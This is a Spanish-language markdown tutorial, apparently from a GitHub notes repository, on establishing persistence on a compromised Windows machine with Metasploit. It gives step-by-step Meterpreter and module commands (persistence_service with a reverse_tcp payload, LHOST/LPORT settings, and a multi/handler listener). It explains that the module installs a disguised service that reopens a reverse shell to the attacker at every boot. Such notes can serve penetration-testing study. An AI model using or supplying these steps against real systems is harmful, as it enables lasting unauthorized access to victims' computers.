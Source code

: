 # Persistencia en Windows con Metasploit

## ¿Qué es la persistencia?

El objetivo de la **persistencia** es mantener el acceso a una máquina comprometida **aunque sea reiniciada o se cierre la sesión actual**. Sirve para asegurarte de que puedes **volver a entrar** en el sistema sin volver a explotar la vulnerabilidad inicial.

---

## Requisitos

- Acceso a una sesión **Meterpreter** en la máquina víctima.
- Permisos administrativos en la sesión.
- Conexión estable entre atacante y víctima.
  
---

## Paso a paso: Persistencia con `persistence_service`

### 1. Obtener información del sistema

```bash
sysinfo
```

Esto te ayuda a saber si necesitas usar un **payload de 32 bits (x86)** o **64 bits (x64)**.

---

### 2. Enviar la sesión al background

```bash
background
```

Esto libera la consola para lanzar nuevos módulos o exploits.

---

### 3. Usar el módulo de persistencia

```bash
use exploit/windows/local/persistence_service
```

Este módulo crea un servicio de Windows que ejecuta automáticamente un payload al reiniciar el sistema.

---

### 4. Configurar el módulo

```bash
set SESSION <ID de la sesión que mandaste al background>
set PAYLOAD windows/x64/meterpreter/reverse_tcp   # O usa x86 si x64 da error
set LHOST <tu IP>
set LPORT <puerto>
```

> ⚠️ Si al usar `x64` da error, cambia a `windows/meterpreter/reverse_tcp` (por defecto es x86).

---

### 5. Ejecutar el módulo

```bash
run
```

Este paso instala el servicio en la máquina víctima que iniciará el payload cuando el sistema arranque.

---

### 6. Preparar el listener (opcional si aún no lo tienes)

```bash
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <tu IP>
set LPORT <puerto>
run
```

---

## ¿Qué hace este módulo exactamente?

- Crea un **servicio legítimo** en Windows con un nombre disfrazado.
- El servicio está configurado para ejecutar el **payload de Metasploit**.
- El servicio se ejecuta cada vez que se **inicia el sistema**, generando una nueva sesión Meterpreter si el listener está activo.

---

## Beneficios

- Permite **reacceso automático** tras reinicio del sistema.
- Ideal para operaciones prolongadas o escenarios de post-explotación.
- No necesitas volver a explotar la máquina.
